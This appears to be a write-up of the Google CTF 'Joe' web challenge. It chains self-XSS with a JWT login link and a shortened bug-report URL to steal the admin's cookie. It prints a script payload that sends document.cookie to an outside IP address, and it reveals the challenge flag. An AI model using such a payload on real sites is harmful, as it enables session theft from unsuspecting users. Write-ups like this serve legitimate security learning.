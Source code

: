 ```yaml
---
published: false
---
```

## Joe Challange writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png]({{site.baseurl}}/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png]({{site.baseurl}}/_posts/joe_admin_login.png)



As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png]({{site.baseurl}}/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:

![Screenshot from 2017-07-03 15-57-08.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-57-08.png)



**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

**<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");</script>**

![selfxss.png]({{site.baseurl}}/_posts/selfxss.png)

As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.


![joe_url_too_big.png]({{site.baseurl}}/_posts/joe_url_too_big.png)

So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.

![Screenshot from 2017-07-03 15-59-36.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-59-36.png)

Now all i needed is to check the access log of apache that is running on my VPS.
![joe_flag.png]({{site.baseurl}}/_posts/joe_flag.png)

And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};




